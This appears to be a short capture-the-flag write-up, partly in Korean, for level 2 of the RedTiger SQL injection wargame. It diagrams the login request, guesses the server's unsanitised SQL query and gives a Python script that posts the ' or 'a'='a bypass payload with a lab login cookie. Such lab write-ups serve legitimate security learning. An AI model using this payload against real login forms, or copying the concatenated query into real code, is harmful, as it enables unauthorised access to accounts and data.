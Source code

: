 ================================================================================================================
[redtiger] level2
================================================================================================================

|

.. graphviz::

    digraph G {
        rankdir="LR";
        node[shape="point"];
        edge[arrowhead="none"]

        {
            rank="same";
            "client"[shape="plaintext"];
            "client" -> step0 -> step2 -> step4;
        }

        {
            rank="same";
            "server"[shape="plaintext"];
            "server" -> step1 -> step3 -> step5;
        }
        step0 -> step1[label="post_data: {username=' or 'a'='a&password=' or 'a'='a}",arrowhead="normal"];
        step3 -> step2[label="login success",arrowhead="normal"];
    }

|

server -> DB 예측
================================================================================================================

- POST 파라미터: username, password

.. code-block:: sql

    SELECT * FROM tb_name where 
    username='$_POST["username"]' AND 
    password='$_POST["password"]'    

|

or
================================================================================================================

.. code-block:: python

    import requests

    requests.packages.urllib3.disable_warnings()

    url = "https://redtiger.labs.overthewire.org/level2.php"
    cookies = {
        "level2login":"easylevelsareeasy_%21"
    }

    payload = {
        "username": "' or 'a'='a",
        "password": "' or 'a'='a",
        "login": "Login"
    }

    r = requests.post(url, cookies=cookies, data=payload, verify=False)

    print r.content

|